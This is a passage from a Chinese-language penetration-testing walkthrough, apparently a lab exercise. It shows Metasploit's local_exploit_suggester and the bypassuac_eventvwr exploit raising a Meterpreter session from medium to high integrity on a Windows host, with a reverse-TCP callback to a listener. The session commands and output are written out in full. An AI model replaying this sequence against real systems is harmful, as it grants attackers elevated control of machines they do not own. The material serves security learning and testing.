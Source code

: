 可以看到当前权限为 Medium Mandatory Level，即普通权限

我们使用 post/multi/recon/local_exploit_suggester 模块检测下当前系统可利用的提权漏洞

```
meterpreter > background
[*] Backgrounding session 1...

msf6 post(windows/gather/enum_patches) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 172.16.214.4 - Collecting local exploits for x86/windows...
[*] 172.16.214.4 - 38 exploit checks are being tried...
[+] 172.16.214.4 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[*] Post module execution completed
```

可以看到提示存在 exploit/windows/local/bypassuac_eventvwr 模块可被利用

```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/bypassuac_eventvwr
[*] Using configured payload windows/meterpreter/reverse_tcp

msf6 exploit(windows/local/bypassuac_eventvwr) > set session 1
session => 1

msf6 exploit(windows/local/bypassuac_eventvwr) > run
[*] Started reverse TCP handler on 10.101.22.38:4444
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (175174 bytes) to 172.16.214.4
[*] Meterpreter session 2 opened (10.101.22.38:4444 -> 172.16.214.4:49160) at 2021-07-06 15:38:08 +0800
[*] Cleaning up registry keys ...

meterpreter > execute -if "whoami /groups"
Process 3048 created.
Channel 1 created.

组信息
-----------------

组名                                 类型   SID          属性
==================================== ====== ============ ==========================================
Everyone                             已知组 S-1-1-0      必需的组, 启用于默认, 启用的组
BUILTIN\Administrators               别名   S-1-5-32-544 必需的组, 启用于默认, 启用的组, 组的所有者
BUILTIN\Users                        别名   S-1-5-32-545 必需的组, 启用于默认, 启用的组
NT AUTHORITY\INTERACTIVE             已知组 S-1-5-4      必需的组, 启用于默认, 启用的组
控制台登录                           已知组 S-1-2-1      必需的组, 启用于默认, 启用的组
NT AUTHORITY\Authenticated Users     已知组 S-1-5-11     必需的组, 启用于默认, 启用的组
NT AUTHORITY\This Organization       已知组 S-1-5-15     必需的组, 启用于默认, 启用的组
LOCAL                                已知组 S-1-2-0      必需的组, 启用于默认, 启用的组
NT AUTHORITY\NTLM Authentication     已知组 S-1-5-64-10  必需的组, 启用于默认, 启用的组
Mandatory Label\High Mandatory Level 标签   S-1-16-12288 必需的组, 启用于默认, 启用的组
```
